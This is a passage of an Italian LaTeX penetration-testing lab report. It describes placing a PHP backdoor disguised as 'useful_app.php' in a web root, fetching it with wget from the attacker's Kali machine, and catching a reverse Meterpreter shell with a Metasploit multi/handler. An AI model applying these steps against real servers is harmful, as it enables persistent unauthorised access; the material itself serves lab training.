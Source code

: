 \documentclass[a4paper, 12pt, oneside]{article}
\begin{document}
dove \texttt{8084} è la porta in cui il server accetterà connessioni. Questo comando va eseguito nella stessa cartella dove è presente il payload.

Per quanto riguarda invece la \texttt{(2)}, avendo già a disposizione la shell di root nell'asset, è sufficiente spostarsi nella directory \texttt{/var/www/html/} e lanciare il comando

\begin{center}
    \texttt{wget 192.168.64.23:8084/useful\_app.php}
\end{center}

\begin{figure}[h!]
    \centering
    \includegraphics[width=\textwidth]{img/wget.png}
    \caption{Trasferimento della backdoor}
\end{figure}

\subsection{Creazione dell'handler}
A questo punto, è necessario creare l'handler che si metterà in ascolto sulla macchina Kali. Il modulo di Metasploit di riferimento è il generico \texttt{exploit/multi/handler} ed utilizza come payload \texttt{php/meterpreter/reverse\_tcp}. Essendo questo un contesto \textbf{reverse} è necessario specificare solamente il parametro \texttt{LHOST}, che deve contenere l'indirizzo della macchina dell'attaccante. 

\subsection{Esecuzione della backdoor}

L'attivazione della backdoor avviene in tre step:

\begin{enumerate}
    \item L'handler viene attivato mediante il comando \texttt{run};
    \item Il web server su cui è stato caricato l'exploit viene contattato dall'esterno mediante \texttt{http://192.168.64.21/useful\_app.php};
    \item Il web server contatta la macchina Kali e riceve il payload per l'apertura della reverse shell;
\end{enumerate}
\end{document}
